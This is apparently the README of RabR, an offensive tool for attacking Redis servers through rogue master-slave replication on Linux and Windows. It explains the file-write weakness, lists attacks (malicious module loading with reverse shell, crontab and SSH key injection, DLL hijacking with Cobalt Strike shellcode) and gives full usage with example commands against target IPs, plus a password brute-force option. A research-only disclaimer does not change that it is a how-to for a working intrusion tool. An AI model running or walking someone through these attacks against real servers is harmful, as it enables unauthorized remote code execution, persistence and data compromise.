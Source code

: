 # RabR 

Redis-Attack By Replication (通过主从复制攻击Redis)   

- 攻击Linux下的Redis，可执行命令和反弹shell
- 攻击Window x64下的Redis，可执行命令 

本工具基于**Ridter**师傅的[**redis-rce**](https://github.com/Ridter/redis-rce) 进行修改。  

## 声明
本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。

## 原理
Redis从2.8开始，就支持主从复制功能。     

这个功能存在脆弱的地方：主从复制中，Redis从机会将Redis主机的数据库文件同步到本地的数据库文件，并检验其是否为RDP格式，但如果不是RDP格式也不会删除。   
所以我们只要将主从复制传输中的数据库文件，替换为我们自己的数据，就可以将我们自己的数据原封不动的写入到Redis从机的数据库文件中，而这个数据库文件的名字也可以通过Redis从机进行修改。  
**这就意味着我们可以将任意文件写入到目标Redis权限下的任意路径**。    

## 特点
- 本工具利用这个Redis的脆弱性，对Linux下的Redis进行module攻击、crontab写入攻击和ssh公钥写入攻击，对Windows下的Redis进行module攻击和dll劫持攻击。  
- 本工具默认使用的Linux恶意模块：exp/linux/exp.so，源码来自于：[**RedisModules-ExecuteCommand** ](https://github.com/puckiestyle/RedisModules-ExecuteCommand ), 该模块实现了执行单条命令和反弹shell的功能，你也可以编写自己的模块。    
- 本工具默认使用的crontab文件：exp/linux/exp.crontab，到使用前务必根据自己实际的需求进行修改，或者直接通过命令行设置自己的crontab文件。  
- 本工具默认使用的ssh公钥文件：exp/linux/exp.authorized_keys，使用前务必自己重新生成以替换，或者直接通过命令行设置自己的ssh公钥文件。  
- 本工具默认使用的Windows恶意模块：exp/win/exp.dll，源码来自于：[**RedisModules-ExecuteCommand-for-Windows** ](https://github.com/0671/RedisModules-ExecuteCommand-for-Windows ), 该模块实现了执行命令的功能，你也可以编写自己的模块。  
- 本工具默认使用的用于劫持的恶意dll：exp/win/exp.dll，是通过 [**DLLHijacker** ](https://github.com/kiwings/DLLHijacker )+ **Winx64下的dbghelp.dll**编译生成的，该dll会执行calc，你也可以编译自己的dbghelp.dll。  
- 本工具有爆破功能，默认密码字典位于pwd.txt中，也可自定义字典文件。  
- 本工具在攻击前会备份目标Redis的数据，在攻击结束后会进行恢复，使用的工具为[**redis-dump-go**](https://github.com/yannh/redis-dump-go )。默认是开启的，可以关闭。  

## 结构
```  
│  redis-attack.py 攻击主程序
│  pwd.txt 爆破字典
├─exp
│  ├─linux
│  │      exp.authorized_keys 默认写入的Linux下的ssh公钥文件，用前需要修改
│  │      exp.crontab 默认写入的Linux下的crontab定时任务文件，用前需要修改
│  │      exp.so 默认导入的Linux Redis模块
│  └─win
│          dbghelp.dll 默认用于劫持Redis的dll
│          exp.dll 默认导入的Windows Redis模块
└─util 有用的程序（用于保存Redis数据） 
```

## 用法   
运行环境：python3
```
usage: python redis-attack.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-wf WINFILE] [-wf WINFILE2] [-lf LINUXFILE] [-lf2 LINUXFILE2] [-lf3 LINUXFILE3] [-a AUTH] [--brute] [-v]
Example:
    python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 --brute
    python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 -P 80 -b mypwd.txt -i
    python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 -lf3 id_rsa

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 16379
  -wf WINFILE, --winfile WINFILE
                        Dll Used to hijack redis, default exp/win/dbghelp.dll
  -wf2 WINFILE2, --winfile2 WINFILE2
                        RedisModules(win) to load, default exp/win/exp.dll
  -lf LINUXFILE, --linuxfile LINUXFILE
                        RedisModules(linux) to load, default exp/linux/exp.so
  -lf2 LINUXFILE2, --linuxfile2 LINUXFILE2
                        Crontab file used to attack linux(/var/spool/cron/root), default exp/linux/exp.crontab(must be
                        modified before use)
  -lf3 LINUXFILE3, --linuxfile3 LINUXFILE3
                        SSH id_rsa.pub file used to attack linux(/root/.ssh/authorized_keys), use `ssh-keygen -t rsa`
                        to generate, default exp/linux/exp.authorized_keys(empty file, must be modified before use)
  -a AUTH, --auth AUTH  redis password
  -b [BRUTE], --brute [BRUTE]
                        If redis needs to verify the password, perform a brute force attack, dict default pwd.txt
  -i, --idontcare       don't care about the data on the target redis
  -v, --verbose         show more info
```

![image-20210708212712502](pic/image-20210708212712502.png)
![image-20210708190457889](pic/image-20210708190457889.png)
![image-20210708213302932](pic/image-20210708213302932.png)

## 进一步  
劫持Windows x64下的dbghelp.dll的具体方法：  
1）[DLLHijacker](https://github.com/kiwings/DLLHijacker) +目标Redis的系统版本的dbghelp.dll， 生成vs项目。  
2）vs项目修改：   
```
1、将dllmain.c中 shellcode_calc[] 的值替换为cs生成的shellcode   
2、为了避免只能劫持1次dll，在dllmain.cpp的 Hijack();后增加 FreeLibrary(hModule);  
3、修改活动解决方案为Realease，x64  
4、修改项目属性的sdk版本、平台工具集为本地vs可用的值  
```
3）编译生成恶意dbghelp.dll，复制到本工具目录下。    
4）使用本工具执行攻击。  

## 时间线  
```  
2021.07.03 发布v0.5  
2021.07.08 发布v0.6,增加了Windows模块攻击  
2021.07.08 发布v0.6.3,增加了针对Linux的crontab写入攻击、ssh公钥写入攻击  
```


## 感谢  
本工具基于大量优秀文章和工具才得以编写完成，非常感谢这些无私的分享者！！非常感谢某群大佬分享的关键词(很重要)！！非常感谢！！  
帮助到我的文章与工具包括但不限于：  
 [Redis on Windows 出网利用探索](https://xz.aliyun.com/t/8153)  
 [Redis On Windows -- Dll Hijack](https://jkme.github.io/redis-on-windows-dll-hijack.html)  
 [DLLHijacker](https://github.com/kiwings/DLLHijacker)  
 [redis-rce](https://github.com/Ridter/redis-rce)  
 [RedisWriteFile](https://github.com/r35tart/RedisWriteFile)  
 [redis-dump-go](https://github.com/yannh/redis-dump-go)  
 [浅析Linux下Redis的攻击面(一)](https://xz.aliyun.com/t/7974)  

## 反馈  
Mail：h.vi@qq.com   
或者[issue](https://github.com/0671/RabR/issues/new)、PR    